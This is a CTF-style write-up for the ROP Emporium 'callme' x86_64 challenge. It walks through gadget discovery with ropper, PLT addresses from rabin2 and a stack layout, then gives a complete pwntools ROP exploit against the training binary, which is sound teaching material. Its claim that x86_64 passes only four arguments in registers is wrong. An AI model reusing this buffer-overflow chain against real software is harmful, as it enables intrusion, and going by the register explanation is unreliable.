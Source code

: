 ```yaml
---
layout: page
permalink: /ROP_emporium/ROP-x64-Challenge-3
title: ROP x64 Challenge 3
status: in progress
type: page
published: true
comments: true
date: 2022-07-13
---
```

## Challenge 3

With the first real ROP challenge completed, let's start getting into some of the fun stuff. While unintended gadgets are super fun to play with, it's also super useful to be able to call intended functions and that is what this challenge deals with. 

Before we go into the challenge, let's take a quick look at how function arguments are passed from caller to callie which is actually system dependent. In x86_64, both the stack and the registers are used, but in practice it's really just the registers. The first 4 arguments are placed in registers, then the rest are pushed onto the stack before the call.

| 64-bit register | 32-bit sub-register | 16-bit sub-register | 8-bit sub-register | Notes               |
| --------------- | ------------------- | ------------------- | ------------------ | ------------------- |
| %rcx            | %ecx                | %cx                 | %cl                | Counter & 4th arg   |
| %rdx            | %edx                | %dx                 | %dl                | 3rd arg             |
| %rsi            | %esi                | %si                 | %sil               | 2nd arg             |
| %rdi            | %edi                | %di                 | %dil               | 1st call argument |

So, if we have the following function:

```C
int foo(int var1, int var2, int var3){
	stuff
}
```

and we wanted to call the function as `foo(1,2,3);` then we would have to place 1 in rdi, 2 in rsi, and 3 in rdx.

With that background covered, let's look at the challenge:

> You must call the `callme_one()`, `callme_two()` and `callme_three()` functions in that order, ~~each with the arguments `0xdeadbeef`, `0xcafebabe`, `0xd00df00d` e.g. `callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d)` to print the flag~~. ==**For the x86_64 binary** double up those values, e.g. `callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`==

First things first, let's just focus on doing it for callme_one. We need to find gadgets that will let us control the values of rdi, rsi, and rdx. The simplest way is to pop them off the stack because we already control that. So let's search for pop rdi in the binary.

```
pwndbg> ropper -- --search "pop rdi"
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: /root/working/callme/callme_64/callme
0x000000000040093c: pop rdi; pop rsi; pop rdx; ret; 
0x00000000004009a3: pop rdi; ret; 

```


Will you look at that, that's super useful (it's also there intentionally, hint `disass usefulGagets`).

With that gadget we can set all of the arguments to the callme functions.

```
         | stack          |
         | -------------- |
32 bytes | start buffer   |
8  bytes | base pointer   | # fill the buffer and base pointer
8  bytes | pop gadget loc | # call 1st gadget to pop off all the vals
8  bytes | 0xdeadbeef...  | # all of the function arguments
8  bytes | 0xcafebabe...  |
8  bytes | 0xd00df00d...  |
8  bytes | callme_1 loc   | # call the first call me function
8  bytes | pop gadget loc | # start again, and call the pop off gadget
8  bytes | 0xdeadbeef...  | # function args again
8  bytes | 0xcafebabe...  |
8  bytes | 0xd00df00d...  |
8  bytes | callme_2 loc   | # call the sec call me function
8  bytes | pop gadget loc | # start again for the last time
8  bytes | 0xdeadbeef...  |
8  bytes | 0xcafebabe...  |
8  bytes | 0xd00df00d...  |
8  bytes | callme_3 loc   | # final call of call me
8  bytes | -------------- |

```

There's just one last thing that we don't know, what values to place into the stack for the callme functions. To do this, we can use the rabin2 tool from before:
```
rabin2 -i callme
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x004006d0 GLOBAL FUNC       puts
2   0x004006e0 GLOBAL FUNC       printf
3   0x004006f0 GLOBAL FUNC       callme_three
4   0x00400700 GLOBAL FUNC       memset
5   0x00400710 GLOBAL FUNC       read
6   0x00000000 GLOBAL FUNC       __libc_start_main
7   0x00400720 GLOBAL FUNC       callme_one
8   0x00000000 WEAK   NOTYPE     __gmon_start__
9   0x00400730 GLOBAL FUNC       setvbuf
10  0x00400740 GLOBAL FUNC       callme_two
11  0x00400750 GLOBAL FUNC       exit
```

And we are able to get the locations of the callme functions. An important note is that these are in the plt (Procedure Linkage Table), not actually the callme binary. That won't matter for this challenge, but we will have to deal with the plt and how linked binaries work later on.

At this point we have all of the values that we want to put on the stack, so it's just a question of coding up an exploit in python with our trusty pwntools.

```python
#!/usr/bin/python3

from pwn import *
io = process('./callme')

# The amount to fill the buffer
junk = b'A' * 0x20

# The 8 bytes to fill the new base pointer from the leave
new_bp = p32(0xcafebabe)*2

# This is the vaddr of system
# First return to the location of the pop rdi
popper = p64(0x0040093c)
call1 = p64(0x00400720)
call2 = p64(0x00400740)
call3 = p64(0x004006f0)

back_junk = b"B" * 20

newbp    = p32(0xba5effff) * 2

d00df00d = p32(0xd00df00d) * 2
deadbeef = p32(0xdeadbeef) * 2
cafebabe = p32(0xcafebabe) * 2

args = deadbeef + cafebabe + d00df00d 

payload = junk + newbp + popper + args +call1 + popper + args + call2 + popper + args + call3

print("The payload is:")
print(payload)

input("Hit enter to apptempt exploit")

print(io.clean(0.5).decode("utf-8"))

io.send(payload)

input("exploit sent hit enter to end")

print(io.clean(0.5).decode("utf-8"))

sleep(1)

```

